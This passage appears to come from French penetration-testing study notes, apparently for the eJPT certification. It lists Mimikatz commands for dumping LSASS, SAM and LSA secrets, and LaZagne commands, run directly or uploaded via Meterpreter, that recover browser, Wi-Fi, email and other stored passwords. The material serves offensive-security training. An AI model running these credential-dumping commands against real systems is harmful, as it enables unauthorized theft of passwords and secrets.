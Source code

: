 ### Workflow Mimikatz
```cmd
# Lancement et configuration
mimikatz.exe
privilege::debug

# Dump mémoire LSASS
sekurlsa::logonpasswords

# Dump SAM local
lsadump::sam

# Dump LSA secrets
lsadump::secrets
```

---

## 🛠️ 7. Autres outils de dumping

### LaZagne - Multi-software password recovery

#### 🎯 Via Meterpreter (Méthode recommandée eJPT)
| Étape | Commande | Description |
|-------|----------|-------------|
| **1. Upload LaZagne** | `upload /path/to/laZagne.exe C:\\temp\\laZagne.exe` | Upload sur la cible |
| **2. Exécuter via Meterpreter** | `execute -f "C:\\temp\\laZagne.exe" -a "all"` | Exécution avec arguments |
| **3. Exécution interactive** | `shell` puis `C:\\temp\\laZagne.exe all` | Via shell Meterpreter |
| **4. Sauvegarde résultats** | `execute -f "C:\\temp\\laZagne.exe" -a "all -oN"` | Sauvegarde dans fichier |

#### 💻 Utilisation Standalone (Accès direct)
| Commande | Description |
|----------|-------------|
| `laZagne.exe all` | Dump tous les passwords |
| `laZagne.exe all -v` | Mode verbose |
| `laZagne.exe browsers` | Passwords navigateurs |
| `laZagne.exe chats` | Applications de chat |
| `laZagne.exe databases` | Base de données |
| `laZagne.exe games` | Jeux |
| `laZagne.exe git` | Credentials Git |
| `laZagne.exe mails` | Clients email |
| `laZagne.exe memory` | Passwords en mémoire |
| `laZagne.exe wifi` | Passwords WiFi |
| `laZagne.exe all -oN` | Sauvegarde dans fichier |
| `laZagne.exe all -oJ` | Sortie format JSON |
